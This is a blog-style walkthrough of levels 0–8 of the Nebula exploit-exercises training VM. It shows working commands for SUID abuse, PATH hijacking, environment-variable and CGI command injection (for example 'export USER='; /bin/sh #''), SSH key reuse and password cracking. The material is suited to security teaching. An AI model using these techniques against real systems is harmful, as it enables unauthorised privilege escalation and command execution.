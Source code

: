 ```yaml
---
layout: post
title: Nebula Notes
---
```


This is my notes for the Nebula VM.

https://exploit-exercises.com/nebula/

## Level 0

Find suids: `find / -perm -4000 2>/dev/null` 

## Level 1

We need to exploit a SUID to execute arbitrary code. We are given the source, the exploitable line is.

`system("/usr/bin/env echo and now what?")`

`env` in this context is used to reference a user's path.

If we `echo $PATH` we get
```
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```
Which means the program searches through these directories in order to find our executable, in this instance, `echo`.

We add another directory to path
```bsh
level01@nebula:/home/flag01$ PATH=/tmp:$PATH
```
And place an executable in there called `echo` like
```bsh
#!/bin/sh

/bin/sh
```
Then running the `flag01` SUID executable gives us a shell as user flag01.

## Level 2

Ok I love this VM.

Vulnerable code is 

```c
 buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
```
So we set our $USER
```bsh
level02@nebula:/home/flag02$ export USER='; /bin/sh #'
```
Run the executable and get a shell as flag02

## Level 3

This level runs the below script with a cronjob.

```bsh
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```
Looking at the script it seems to run any executable in the writable.d directory.
Let's write a script to get the flag
```
#/bin/sh

/bin/getflag >> /tmp/flag03/flag
```
Make sure to set permissions/executable then wait for the cron to run.

## Level 4

Create a symlink

```
level04@nebula:/home/flag04$ ln -s /home/flag04/token /tmp/level04
```
Pass the sl as arg to the executable. Use the output to `su flag04` then `getflag`

## Level 5

```
level05@nebula:/home/flag05$ mkdir /tmp/flag05
level05@nebula:/home/flag05$ cd /tmp/flag05
/tmp/flag05$ tar -xvzf /home/flag05/.backup/backup-19072011.tgz -C .
level05@nebula:/tmp/flag05$ cd .ssh/
level05@nebula:/tmp/flag05/.ssh$ ls
authorized_keys  id_rsa  id_rsa.pub
level05@nebula:/tmp/flag05/.ssh$ ssh flag05@nebula -i id_rsa
flag05@nebula:~$ getflag
```

## Level 6

```
cat /etc/passwd/
```
Crack the hash with john

## Level 7

So this line

```
ping(param("Host"));
```
means we invoke the program like
```
level07@nebula:/home/flag07$ ./index.cgi Host=127.0.0.1
```
We can passthrough our own commands using a semicolon, but the program isn't SUID so it doesn't really help.

The other file in `/home/flag07/` is the config for a web server that looks like it runs on port 7007. Let's break out nc and see if we can reach it.

```
level07@nebula:/home/flag07$ netcat 127.0.0.1 7007
GET /index.cgi?Host=127.0.0.1%3Bwhoami
Content-type: text/html

<html><head><title>Ping results</title></head><body><pre>PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_req=1 ttl=64 time=0.015 ms
64 bytes from 127.0.0.1: icmp_req=2 ttl=64 time=0.046 ms
64 bytes from 127.0.0.1: icmp_req=3 ttl=64 time=0.045 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1999ms
rtt min/avg/max/mdev = 0.015/0.035/0.046/0.015 ms
flag07
```
Note te %3B HTML encoding for the semi colon. The webserver runs as flag07, so we can execute our getflag through injecting the right param. 
```
GET /index.cgi?Host=127.0.0.1%3Bgetflag
Content-type: text/html

...

You have successfully executed getflag on a target account
```

## Level 08

We have a packet capture file we can read with tcpdump

Using the below flags makes it sort of readable.
```
tcpdump -qns 0 -X -r capture.pcap
```
We can see an attempted login to `wwwbugs.log` with a password field.